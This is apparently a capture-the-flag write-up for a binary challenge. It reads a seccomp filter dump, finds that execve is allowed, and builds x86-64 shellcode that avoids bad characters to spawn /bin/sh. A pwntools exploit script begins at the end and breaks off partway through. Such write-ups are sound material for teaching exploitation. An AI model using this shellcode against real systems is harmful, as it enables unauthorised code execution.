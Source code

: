 ```
 0013: 0x15 0x03 0x00 0x00000066  if (A == getuid) goto 0017
 0014: 0x15 0x02 0x00 0x00000068  if (A == getgid) goto 0017
 0015: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0017
 0016: 0x15 0x00 0x01 0x00000142  if (A != execveat) goto 0018
 0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0018: 0x06 0x00 0x00 0x00000000  return KILL

```
So cool! `execve` and `execveat` are allowed! Now our job would be to simply write the shellcode! 

## Writing the shellcode:

(Note: there could be many ways to write the same piece of shellcode and avoid the list of bad characters, however I will discuss my approach.)

Before we move onto shellcode scripting, let us make sure of the arguments to be placed into registers while making use of an execve syscall. 

For a 64 bit, execve syscall, 
 - `rax` : `0x3b` (syscall number)
 - `rdi` : `address containing "/bin/sh"`
 - `rsi` : `0x0`
 - `rdx` : `0x0`

```python=
shell = ''
shell += 'push rbx\n'
shell += 'push 0x0\n'			
shell += 'pop rsi\n'				# making sure rsi contains 0x0
shell += 'push rsi\n'
shell += 'pop rdx\n'				# making sure rdx contains 0x0
shell += 'push rbx\n'
shell += 'push 0x68732f\n'			# pushing '/sh\x00' onto the stack first
shell += 'push rsp\n'
shell += 'pop rbx\n'
shell += 'shl qword ptr [rbx], 0x20\n'	# left shifting by 32 bytes, with this we ensure "/sh\x00" is written as the upper 4 bytes and storing the result in rbx.
shell += 'push 0x6e69622f\n'			# pushing '/bin' onto the stack
shell += 'pop rax\n'
shell += 'add qword ptr [rbx], rax\n'		# adding the '/bin' as the lower 4 bytes to rbx whoch contains '/sh\x00' as the upper 4 bytes. 
shell += 'push rbx\n'
shell += 'pop rdi\n'				# placing "/bin/sh\x00" into rdi
shell += 'push 0x3b\n'				# updating rax to contain syscall number
shell += 'pop rax\n'
shell += 'syscall\n'				# syscall
```

## Exploit:

```python=

from pwn import *

def shellcode():

	# execve syscall
	shell = ''
	shell += 'push rbx\n'
	shell += 'push 0x0\n'
	shell += 'pop rsi\n'
	shell += 'push rsi\n'
	shell += 'pop rdx\n'
	shell += 'push rbx\n'
```